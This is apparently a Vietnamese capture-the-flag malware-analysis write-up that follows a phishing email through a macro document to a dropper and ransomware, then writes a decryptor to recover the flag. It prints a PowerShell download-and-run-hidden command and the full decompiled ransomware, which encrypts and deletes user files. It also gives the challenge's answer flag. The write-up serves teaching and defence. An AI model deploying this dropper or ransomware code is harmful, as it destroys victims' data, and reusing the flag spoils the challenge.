








# Mail Revenge

NOTE: BÀI NÀY PHẢI CHẠY TRÊN MÁY ẢO, NẾU KHÔNG CÓ THỂ BAY Ổ ĐĨA NHA

Unzip file zip thì ta được các file như sau



Mình nhìn thấy có 1 file là ``KCSC Anime Festival Invitation.eml``, mình mở file này thì thu được như sau



Ta thấy có 1 file zip đính kèm, là ``invitation.zip``, ta tải về thui

Extract file zip này thì ta thu được 1 file .docm, như với những file này, mình sẽ dùng oletools để xử lý



Nhìn thì thấy có 1 đường link github
``https://raw.githubusercontent.com/yoBDaSMi/ttv/main/drop.bat``

Ta truy cập thì có 1 đoạn code như sau

```
@echo off
powershell.exe -NoProfile -ExecutionPolicy -Command "Invoke-WebRequest -Uri 'https://github.com/yoBDaSMi/ttv/raw/main/tongtien.exe' -OutFile 'tongtien.exe'; Start-Process -FilePath 'tongtien.exe' -Windowstyle Hidden"
```

Ta lại thấy 1 link tải 1 file tongtien.exe, ta dùng Detect It Easy thì thấy complie bằng python, thế nên mình dùng pyinstxractor.py để decomplie lại nha



Giờ lên tool ``https://www.toolnb.com/tools-lang-en/pyc.html`` thì ta thu được quả code như sau

```
# uncompyle6 version 3.5.0
# Python bytecode 3.8 (3413)
# Decompiled from: Python 3.7.2 (default, Dec 29 2018, 06:19:36) 
# [GCC 7.3.0]
# Embedded file name: tongtien.py
import requests, re
from hashlib import sha256, md5
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from os import remove, getcwd, listdir
import ctypes
list_extensions = [
 '.txt', '.png', '.pdf', '.bmp', '.jpg', '.docx', '.xlsx', '.rtf']

def encrypt(key, iv, plaintext):
    key = bytes.fromhex(key)
    iv = bytes.fromhex(iv)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    ct = cipher.encrypt(pad(plaintext, 16))
    return iv + ct


def readFile(cd):
    for file in listdir(cd):
        if file.endswith(tuple(list_extensions)):
            f = open(file, 'rb').read()
            c = encrypt(key, iv, f)
            f1 = open(file + '.kcsc', 'wb').write(c)
            remove(file)


def getContent(url):
    response = requests.get(url)
    if response.status_code == 200:
        return response.text
    else:
        return


string1 = 'lmth.su_tuoba/su_tuoba/egap/oi.buhtig.maet-csck//:sptth'[::-1]
string2 = getContent(string1)
l1 = [62, 60, 101, 109, 62, 60, 99, 111, 100, 101, 62, 38, 113, 117, 111, 116, 59, 40, 46, 42, 63, 41, 38, 113, 117, 111, 116, 59, 60, 47, 99, 111, 100, 101, 62, 60, 47, 101, 109, 62, 60, 47, 115, 116, 114, 111, 110, 103]
l2 = [75, 77, 65, 32, 67, 121, 98, 101, 114, 32, 83, 101, 99, 117, 114, 105, 116, 121, 32, 67, 108, 117, 98]
key = ''
if string2 is not None:
    pattern = ''.join((chr(x) for x in l1))
    match = re.search(pattern, string2)
    key = match.group(1)
iv = ''.join((chr(y) for y in l2))
key = sha256(key.encode('utf-8')).hexdigest()
iv = md5(iv.encode('utf-8')).hexdigest()
cd = getcwd()
readFile(cd)
MessageBox = ctypes.windll.user32.MessageBoxW
MessageBox(None, 'Thằng nào có tiền thì nạp vào chuyển cho tao, ít thì 5 quả trứng, nhiều thì 1 tên lửa, anh không thích nói nhiều, anh nói cho chúng mày nghe', 'rANSomwarE', 0)
```

Đọc code thì ta thấy rằng code sẽ chọn những file có extension là ``[
'.txt', '.png', '.pdf', '.bmp', '.jpg', '.docx', '.xlsx', '.rtf']`` thì sẽ mã hóa AES_CBC  với key và iv sẽ là đầu ra của đoạn code này
```
string1 = 'lmth.su_tuoba/su_tuoba/egap/oi.buhtig.maet-csck//:sptth'[::-1]
string2 = getContent(string1)
l1 = [62, 60, 101, 109, 62, 60, 99, 111, 100, 101, 62, 38, 113, 117, 111, 116, 59, 40, 46, 42, 63, 41, 38, 113, 117, 111, 116, 59, 60, 47, 99, 111, 100, 101, 62, 60, 47, 101, 109, 62, 60, 47, 115, 116, 114, 111, 110, 103]
l2 = [75, 77, 65, 32, 67, 121, 98, 101, 114, 32, 83, 101, 99, 117, 114, 105, 116, 121, 32, 67, 108, 117, 98]
key = ''
if string2 is not None:
    pattern = ''.join((chr(x) for x in l1))
    match = re.search(pattern, string2)
    key = match.group(1)
iv = ''.join((chr(y) for y in l2))
key = sha256(key.encode('utf-8')).hexdigest()
iv = md5(iv.encode('utf-8')).hexdigest()
```

Giờ mình sẽ viết hàm decrypt lại nha mọi người
```
from os.path import isfile, join
import requests, re
from hashlib import sha256, md5
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from os import remove, getcwd, listdir
import ctypes


list_extensions = [
 '.kcsc']


def decrypt(key, iv, ciphertext):
    key = bytes.fromhex(key)
    iv = bytes.fromhex(iv)

    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted_data = unpad(cipher.decrypt(ciphertext), 16)

    return decrypted_data

def remove_extension(filename, extension):
    if filename.endswith(extension):
        return filename[:-len(extension)]
    else:
        return filename


def readFile(cd, list_extensions, key, iv):
    for file in listdir(cd):
        if isfile(join(cd, file)) and file.endswith(tuple(list_extensions)):
            file_path = join(cd, file)
            with open(file_path, 'rb') as f:
                encrypted_content = f.read()

            decrypted_content = decrypt(key, iv, encrypted_content)

            new_file_path = join(cd, remove_extension(file, '.kcsc'))
            with open(new_file_path, 'wb') as f:
                f.write(decrypted_content)

            remove(file_path)

def getContent(url):
    response = requests.get(url)
    if response.status_code == 200:
        return response.text
    else:
        return


string1 = 'lmth.su_tuoba/su_tuoba/egap/oi.buhtig.maet-csck//:sptth'[::-1]
string2 = getContent(string1)
l1 = [62, 60, 101, 109, 62, 60, 99, 111, 100, 101, 62, 38, 113, 117, 111, 116, 59, 40, 46, 42, 63, 41, 38, 113, 117, 111, 116, 59, 60, 47, 99, 111, 100, 101, 62, 60, 47, 101, 109, 62, 60, 47, 115, 116, 114, 111, 110, 103]
l2 = [75, 77, 65, 32, 67, 121, 98, 101, 114, 32, 83, 101, 99, 117, 114, 105, 116, 121, 32, 67, 108, 117, 98]
key = ''
if string2 is not None:
    pattern = ''.join((chr(x) for x in l1))
    match = re.search(pattern, string2)
    key = match.group(1)
iv = ''.join((chr(y) for y in l2))
key = sha256(key.encode('utf-8')).hexdigest()
iv = md5(iv.encode('utf-8')).hexdigest()
cd = getcwd()
readFile(cd,list_extensions,key,iv)
```


Chạy code xong thì ta thấy các file đã trở lại bình thường, ta mở file ``document3.pdf``, thì ta thu được như này



Dùng Google hình ảnh cắt ra rồi dán vào để đỡ phải nhập nha

Mình ban đầu băn khoăn không biết là mật mã gì, thế nên mình đã lên [đây](https://www.dcode.fr/cipher-identifier) để phân tích loại mã hóa



Mình decode Base85 thì thu được flag



Ngoài ra có thể sử dụng Magic của Cyberchef để phân tích nha



**Flag: KCSC{dung_de_bi_mail_phishing_lua_ae_nha}**